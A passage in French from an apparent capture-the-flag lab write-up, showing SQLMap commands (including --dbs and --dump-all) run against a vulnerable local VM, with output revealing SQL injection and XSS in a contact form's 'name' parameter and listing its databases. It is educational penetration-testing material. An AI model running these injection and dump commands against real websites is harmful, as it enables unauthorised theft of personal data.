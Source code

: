 Afin d'éviter de longs tests manuels fastidieux, pour trouver la bonne syntaxe permettant d'exfiltrer les données de la base MySQL, SQLMap vient à la rescousse. Il s'agit [d'un outil open source permettant d'identifier et d'exploiter une injection SQL](https://connect.ed-diamond.com/MISC/MISC-062/Utilisation-avancee-de-sqlmap) sur des applications Web. En lui spécifiant l'URL du site Web ainsi que les paramètres à tester, SQLMap va tester différentes techniques afin d'identifier la présence d'une injection SQL...

```console
root@blinils:~# sqlmap -u "http://192.168.56.101/list/" --data="name=a&email=b&phone=c&org=d"

--snip--

[12:34:56] [INFO] testing connection to the target URL
[12:34:56] [INFO] checking if the target is protected by some kind of WAF/IPS/IDS
[12:34:56] [INFO] testing if the target URL content is stable
[12:34:56] [INFO] target URL content is stable
[12:34:56] [INFO] testing if POST parameter 'name' is dynamic
[12:34:56] [WARNING] POST parameter 'name' does not appear to be dynamic
[12:34:56] [INFO] heuristic (basic) test shows that POST parameter 'name' might be injectable (possible DBMS: 'MySQL')
[12:34:56] [INFO] heuristic (XSS) test shows that POST parameter 'name' might be vulnerable to cross-site scripting (XSS) attacks
[12:34:56] [INFO] testing for SQL injection on POST parameter 'name'
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] 
[12:35:46] [ERROR] user quit
```

En quelques secondes à peine, SQLMap a détecté qu'il s'agit d'une base de données MySQL et que le premier paramètre testé ```name``` est vulnérable à la fois aux injections SQL et aux XSS (alias _Cross-Site Scripting_... on y reviendra). Il y a de très fortes chances pour que les autres paramètres soient eux aussi vulnérables, c'est reparti pour un tour ! Après plusieurs tentatives, SQLMap récupère les tables ```--tables``` ainsi que les colonnes ```--columns``` présentes dans chaque base de données trouvée ```--dbs``` et tant qu'à faire, autant récupérer tout le contenu de la base de données ```--dump-all```.

```console
root@blinils:~# sqlmap -u "http://192.168.56.101/list/" --data="name=a&email=b&phone=c&org=d" --dbms=MySQL --dbs -v0

--snip--
web server operating system: Linux Fedora 8 or 7 or 6 (Moonshine or Zod or Werewolf)
web application technology: PHP 5.2.4, Apache 2.2.6
back-end DBMS: MySQL >= 5.0.0
[13:13:13] [INFO] resumed: information_schema
[13:13:13] [INFO] resumed: contacts
[13:13:13] [INFO] resumed: drupal
[13:13:13] [INFO] resumed: mysql
[13:13:13] [INFO] resumed: test
--snip--
```

_Nota Bene : pour une raison que je ne saurais expliquer, SQLMap n'est pas en mesure de récupérer le contenu de l'unique table ```contact``` de la base de données ```contacts```. Pour rappel, cette table est censée contenir l'ensemble des informations de la mailing-list de Phake Organization (nom de famille, numéro de téléphone, adresse e-mail et nom de l'entreprise). Pas de panique cependant, il est toujours possible de la récupérer par d'autres moyens._

